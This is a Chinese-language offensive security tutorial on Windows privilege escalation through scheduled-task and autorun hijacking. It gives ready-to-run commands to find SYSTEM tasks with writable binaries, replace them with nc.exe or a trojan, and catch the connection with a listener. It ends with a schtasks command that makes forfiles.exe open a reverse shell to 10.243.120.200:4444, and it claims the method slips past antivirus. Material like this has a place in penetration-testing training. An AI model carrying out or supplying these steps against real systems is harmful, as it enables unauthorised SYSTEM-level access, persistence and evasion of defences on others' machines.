

# 前言：

“服务提权（第三章）”是我们主动去忽悠系统管家帮我们办事。而“计划任务（Scheduled Tasks）”与“启动项（Autoruns）”提权，则是我们在必经之路上挖好坑，**等着高权限用户（或系统自己）按时走过来踩进去。**

这两者的本质依然是：**找高权限运行的程序 -> 检查我们能不能篡改它 -> 替换成木马 -> 等待触发。**


# 一、计划任务劫持

企业环境里，管理员经常会设置一些定时脚本：

比如“每天凌晨 2 点用 SYSTEM 权限运行一次 `C:\Backup\backup.bat` 来清理日志”。这就是我们的提权跳板。

## 发现高价值目标

在实战中，**首选永远是看 `WinPEAS` 的红色输出**。如果你必须手工查（或者 WinPEAS 被杀了），可以使用以下命令寻找非系统自带的计划任务：

```bash
# 查看所有计划任务的详细信息（输出很多）
schtasks /query /fo LIST /v

# 过滤技巧：找那些以 SYSTEM 身份运行的任务
schtasks /query /fo LIST /v | findstr /i "TaskToRun RunAs" | findstr /i "SYSTEM"
```

## 漏洞验证

假设你发现了一个任务：每天运行 `C:\Tasks\cleanup.exe`，运行身份是 `NT AUTHORITY\SYSTEM`。立刻拿着这个路径去查权限：

```bash
icacls "C:\Tasks\cleanup.exe"
```

如果你看到 `BUILTIN\Users:(M)` 或 `(W)` 或 `(F)`，**说明可以打**

## 触发exp

把你的反弹 Shell 武器（比如 `nc.exe` 或者一个恶意的 `.bat` 脚本）覆盖掉原文件：

```bash
# 备份原文件是个好习惯
move C:\Tasks\cleanup.exe C:\Tasks\cleanup.exe.bak

# 把你的木马放进去
copy C:\Windows\Temp\nc.exe C:\Tasks\cleanup.exe
```

**触发方式**：

1. **等**：如果是每 5 分钟执行一次，你在 Ubuntu 里敲好 `nc -lvnp 4444` 等它自己弹回来。

2. **强行触发**：有时候你运气极好，普通用户也有权手动启动这个任务：
   
   ```bash
   schtasks /run /tn "那个任务的名字"
   ```
   
   

# 二、 启动项 (Autoruns) 劫持

启动项指的是电脑开机、或某个用户登录桌面时会自动运行的程序。如果管理员配置了一个每次开机都会以高权限运行的辅助工具，且你对其有写权限，就能利用。

## 查启动项注册表

Windows 的自动启动程序大多记录在注册表里。重点查这几个键值：

```bash
# 机器级别的启动项（所有用户登录都会触发）
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

# 如果是64位系统，别忘了查32位的注册表项
reg query HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
```

## 验证与替换

1. 观察上面的输出，找到非 `C:\Windows\System32\` 下的第三方程序路径（比如 `C:\Tools\SysMonitor.exe`）。

2. 用老套路跑一遍 `icacls "C:\Tools\SysMonitor.exe"`。

3. 如果可写，覆盖替换为木马。
   
   


# 三、 计划任务与LOLBAS配合

在最高端的实战对抗中，你查到的高权限计划任务，执行的往往**不是**第三方脚本，而是**系统自带的合法程序**。

## 看到什么特征才去查 LOLBAS？

你**绝对不需要**挨个去查所有的 exe。在实战中，只有当**以下三个条件同时满足**时，你的脑子里才应该去找利用payload：

**特征 1：目标是微软系统原生物件**

* 你看了一眼路径，它是 `C:\Windows\System32\`、`C:\Windows\SysWOW64\` 或者 `C:\Windows\Microsoft.NET\` 下的程序（比如 `forfiles.exe`, `certutil.exe`, `msxsl.exe`, `bash.exe`）。

* **说明**：如果是 `C:\Program Files\某个国产软件\a.exe`，查 LOLBAS 没用，它不收录第三方软件。

**特征 2：文件本身不可写**

* 跑了 `icacls "C:\Windows\System32\forfiles.exe"`，发现普通用户只有 `(RX)` 权限。

* **说明**：路被堵死了，传统的“替换 exe”打法失效。

**特征 3：你可以控制它的参数或配置文件** 这是最核心的条件。

虽然文件改不了,但你发现：

* **能改参数**：你发现你对这个计划任务对象本身有 `Change` 权限。你可以用 `schtasks /change` 把原本的 `forfiles /p c:\` 改成你想要的恶意exe参数。

* **能改它读取的文件**：你发现任务执行的是 `msxsl.exe C:\config.xml C:\style.xsl`。虽然 `msxsl.exe` 改不了，但你去跑了下 `icacls` 发现，那个 `C:\style.xsl` 文件你**可写**

* **如何知道能不能修改参数？（针对计划任务）** 我们使用 `schtasks /change` 篡改参数，**并不是**去修改 `forfiles.exe` 这个程序本身（你也改不了它，它是受保护的系统组件）。我们是去修改"**系统清理任务**" 这个计划任务本身的配置。在 Windows 里，计划任务其实是以 XML 文件的形式存在 `C:\Windows\System32\Tasks\` 目录下的。你怎么知道自己能不能改这个任务？
  
  1. **自动化检测**：**WinPEAS** 扫完后，如果发现普通用户对某个高权限任务拥有 `Modify` 权限，它会直接用**红色**在终端里警告你
  
  2. **手工检测**：你可以用 `icacls "C:\Windows\System32\Tasks\系统清理任务"` 去查权限，如果有 `(M)` 或 `(W)` 或 `(F)`，说明你可以敲 `schtasks /change` 命令来篡改它的参数。

* **如何知道能不能写文件？（针对配置文件）** 和之前一样用 `icacls` 命令

## 实战演示：

当你满足上述公式，打开 LOLBAS 网站搜索 `forfiles.exe`，知识库会直接把答案喂到你嘴边：

> _LOLBAS 提示：`forfiles` 的 `/c` 参数可以用来执行任意系统命令。_




于是你直接敲命令篡改任务参数：

```bash
# 严格对齐 LOLBAS 格式，将 calc.exe 替换为我们的木马
schtasks /change /tn "系统清理任务" /tr "forfiles.exe /p c:\windows\system32 /m notepad.exe /c \"cmd /c C:\Windows\Temp\nc.exe 10.243.120.200 4444 -e cmd.exe\""
```

当下一次任务触发时，Windows 杀软一看是系统自带的程序在运行，直接绿灯放行；殊不知它已经在参数的驱使下，把你的反弹 Shell 悄悄拉了起来。


